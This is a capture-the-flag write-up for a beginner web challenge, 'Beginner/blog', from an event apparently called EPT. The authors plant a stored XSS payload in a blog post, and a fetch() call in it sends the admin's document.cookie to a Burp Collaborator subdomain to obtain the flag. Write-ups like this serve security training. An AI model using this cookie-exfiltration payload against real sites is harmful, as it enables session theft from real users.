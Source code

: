 ## Challenge: Beginner/blog
### Description
The admin is an avid reader of the blog. Allegedly, he logs in like every minute to check for any blog updates.

Ondemand Container:

io6.ept.gg:32838

### Solution
Visiting the address from the "Ondemand Container" - we are given a blog board, with the possiblility to read blog posts. We can also register users and submit our own posts. Knowing this, we guessed we had to use XSS in the website to get the flag, considering that we know that the admin reads the blog posts regularly - and we probably want to get his cookie. 

![](blog01.png)

We register a random user "123:123", and make a new blog post containing a XSS-payload.
[portswigger has a lab on how to exploit XSS to steal cookies](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies). In Burp Collaborator we generate a collaborator payload. "copy to clipboard" in Burp collaborator gives us a subdomain ("BURP-COLLABORATOR-SUBDOMAIN"), which we insert in the payload of the blog-post:

    <script>
    fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
    </script>

After a few seconds after we submitted the blog-post, we get "traffic" in the collaborator GUI:
![](blog02.png)

As we can see in the picture above - in the tab "Request to Collaborator", we have the flag! 

### Flag
`EPT{I_never_sleep}`
